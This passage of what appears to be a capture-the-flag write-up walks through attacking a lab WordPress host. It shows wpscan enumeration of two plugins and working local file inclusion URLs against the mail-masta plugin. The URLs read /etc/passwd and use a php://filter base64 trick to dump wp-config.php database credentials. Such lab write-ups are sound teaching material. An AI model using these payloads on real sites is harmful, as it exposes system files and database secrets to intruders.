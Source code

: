 - Enumerating the wordpress endpoint using `wpscan` reveals two plugins being used

```
[+] mail-masta
 | Location: http://10.10.123.139/wordpress/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.123.139/wordpress/wp-content/plugins/mail-masta/readme.txt


[+] reflex-gallery
 | Location: http://10.10.123.139/wordpress/wp-content/plugins/reflex-gallery/
 | Latest Version: 3.1.7 (up to date)
 | Last Updated: 2021-03-10T02:38:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 3.1.7 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.123.139/wordpress/wp-content/plugins/reflex-gallery/readme.txt
```

- Upon further googling, I found out that [`mail-masta 1.0` is vulnerable to LFI](https://www.exploit-db.com/exploits/40290) by using the following endpoint

```
http://10.10.123.139/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=
```

- A simple `/etc/passwd` at the end will reveal the content of the file ; 

- I tried looking for `wp-content.php` so I can check the wordpress config.

- I managed to access that file by using the base64 PHP filter to display the result in base64 to the client (our browser) and then I've decoded that.

```
http://10.10.123.139/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php
```

```
...truncated

define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'elyana' );

/** MySQL database password */
define( 'DB_PASSWORD', '{REDACTED}' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

... truncated
```

